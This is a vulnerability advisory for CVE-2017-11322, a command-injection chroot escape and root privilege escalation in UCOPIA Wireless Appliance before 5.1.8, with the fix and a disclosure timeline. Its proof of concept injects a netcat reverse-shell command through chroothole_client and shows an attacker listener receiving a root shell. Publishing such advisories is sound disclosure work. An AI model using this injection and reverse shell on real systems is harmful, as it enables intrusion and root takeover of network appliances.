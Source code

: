 # [CVE-2017-11322] UCOPIA Wireless Appliance < 5.1.8 Privileges Escalation

## Asset description

UCOPIA solutions bring together a combination of software, appliance and cloud services serving small to large customers.

More than 12,000 UCOPIA solutions are deployed and maintained by UCOPIA expert partners all over the world.

The affected asset in this report is a WiFi management appliance.

## Vulnerability

CHROOT escape and privileges escalation.

**Threat**

Improper sanitization of system commands in the chroothole_client executable in UCOPIA Wireless Appliance, prior to 5.1.8, allows local attackers to elevate privileges to root user and escape from the *chroot*.

**CVE ID**: CVE-2017-11322

**Access Vector**: local

**Security Risk**: high

**Vulnerability**: CWE-78

**CVSS Base Score**: 8.2 (High)

**CVSS Vector**: CVSS:3.0/AV:L/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H

### Proof of Concept: chroot escape / privileges escalation

The **chroothole_client** binary is used by the appliance to run programs outside the *chroot*, as the **root** user.

Because of an improper sanitization of system commands, we managed to gain a complete **root** access to the appliance, outside the *chroot*.

```
$ chroothole_client '/usr/sbin/status'
is not running ... failed !
$ chroothole_client '/usr/sbin/status $(which nc)'
/bin/nc is not running ... failed!
$ chroothole_client '/usr/sbin/status $(nc 10.0.0.125 4444 -e /bin/sh)'
```

Attacker terminal :

```
$ ncat -lvp 4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.0.0.1:49156.
whoami
root
```

## Solution

Update to UCOPIA 5.1.8

## Timeline (dd/mm/yyyy)

* 08/03/2017 : Vulnerability discovery.
* 03/05/2017 : Initial contact.
* 10/05/2017 : GPG Key exchange.
* 10/05/2017 : Advisory sent to vendor.
* 17/05/2017 : Request for feedback.
* 22/05/2017 : Vendor acknowledge the vulnerabilities.
* 21/06/2017 : Labs request for an ETA, warning for public disclosure.
* 21/06/2017 : Vendor say that the UCOPIA 5.1.8 fixes the issue.
* 29/09/2017 : Public disclosure.

## Credits

* Nicolas Chatelain, TNP Consultants (nicolas.chatelain -at- tnpconsultants -dot- com)
